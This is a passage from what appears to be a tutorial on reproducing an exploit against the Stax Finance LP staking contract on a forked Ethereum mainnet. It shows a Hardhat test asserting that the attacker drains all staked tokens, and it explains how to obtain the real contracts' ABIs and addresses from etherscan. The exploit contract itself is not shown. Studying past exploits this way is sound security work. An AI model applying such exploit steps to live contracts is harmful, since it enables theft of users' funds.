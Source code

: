 ```ts
      stakingContract.address,
    );

    console.log(
      `[+] Before running the exploit, the staking contract contains ${
        stakingContractBalanceBeforeAttack / Math.pow(10, 18)
      } tokens`,
    );

    // Run our exploit
    await attackerContract.exploit();

    // Our token balance should match the original token balance in the contract
    expect(await tokenContract.balanceOf(attacker.getAddress())).to.be.eq(
      stakingContractBalanceBeforeAttack,
    );

    // And the staking contract should have 0 tokens
    expect(await tokenContract.balanceOf(stakingContract.address)).to.be.eq(0);
  });
});
```

First, we have two special types of objects: a `Signer` and a `Contract`.

- `Signer`s are used as EOA accounts. The helper function `ethers.getSigners()` returns an array of 20 signers that we can use to deploy contracts and call functions on contracts.
- `Contract`s are the actual contracts that we can deploy or call functions on.

In this case, we need to deploy only one contract: the `attackerContract`. The other two contracts are already deployed on our fork of the mainnet.

## Accessing the Deployed Contracts

To actually get a handle to the deployed contracts, we need access to their ABIs. You can scroll down on the code page in etherscan to get the ABI for each of the contracts. I'll export them to JSON and link them here:

- `StaxLPStaking.sol` ABI - [https://api.etherscan.io/api?module=contract&action=getabi&address=0xd2869042e12a3506100af1d192b5b04d65137941](https://api.etherscan.io/api?module=contract&action=getabi&address=0xd2869042e12a3506100af1d192b5b04d65137941)
- `StaxLP.sol` ABI - [https://api.etherscan.io/api?module=contract&action=getabi&address=0xBcB8b7FC9197fEDa75C101fA69d3211b5a30dCD9](https://api.etherscan.io/api?module=contract&action=getabi&address=0xBcB8b7FC9197fEDa75C101fA69d3211b5a30dCD9)

**Note: you can get access to the token address in two ways: either by using `console.log(await stakingContract.stakingToken());`, or by going to [this link](https://etherscan.io/address/0xd2869042e12a3506100af1d192b5b04d65137941#readContract) and clicking on `12. stakingToken`.**

Once you've placed them in a text file somewhere in the repository, you can use the helper `getAbi()` function to fetch the ABIs. They're extremely long strings, so it's best not to copy paste them into the file.
